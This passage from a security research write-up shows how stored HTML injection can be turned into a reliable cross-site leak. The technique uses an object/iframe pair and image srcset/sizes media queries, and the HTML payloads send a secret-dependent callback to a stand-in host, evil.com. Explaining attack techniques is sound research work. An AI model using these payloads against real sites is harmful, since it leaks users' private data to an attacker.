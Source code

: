If the injection is off-screen and the user doesn't scroll, can we still leak data? Of course, we can use element IDs and [scroll-to-text-fragment](https://chromestatus.com/feature/4733392803332096) to create a URL that forces a scroll, but these rely on user interaction and don't allow us to achieve consistent leaks in a real-world scenario. Ideally, we want to weaponise stored HTML injection in a reliable manner.

Enter responsive images! Specifically, the `srcset` and `sizes` attributes of images.

{% code overflow="wrap" %}
```html
<object data="/api/v1/leaky?secret=a">
    <iframe srcdoc="<img srcset='https://evil.com?callback=1 480w, https://evil.com?callback=0 800w' sizes='(min-width: 1000px) 800px, (max-width 999px) 480px'>" width="1000px">
</object>
```
{% endcode %}

There's quite a few things to unpack here. First, remember that the inner iframe will only be visible if the leaky endpoint returns a 404 status code.

This is important because we are now going to conditionally load the image within the iframe from two different URLs. Using the `sizes` attribute, we can use [media queries](https://developer.mozilla.org/en-US/docs/Web/CSS/CSS\_media\_queries/Using\_media\_queries) to choose which URL to load the image from, depending on the viewport size.

{% code overflow="wrap" %}
```html
<img 
    srcset='https://evil.com?callback=0 800w, https://evil.com?callback=1 480w' 
    sizes='(min-width: 1000px) 800px, (max-width 999px) 480px'
>
```
{% endcode %}

Because our iframe has `width="1000px"`, the following happens:

1. If the leaky endpoint returns a 404 status code, the iframe is displayed and has a width of 1000px. The image within the iframe matches the `(min-width: 1000px)` media query and loads the 800px image from `https://evil.com?callback=0`.
2. If the leaky endpoint returns a 200 status code, the iframe is _not_ displayed. Since the image is not being rendered as part of a large iframe, it matches the `(max-width 999px)` media query and loads the 480px image from `https://evil.com?callback=1`.

We now have a way of reliably performing the leak, even with a rather restrictive CSP.
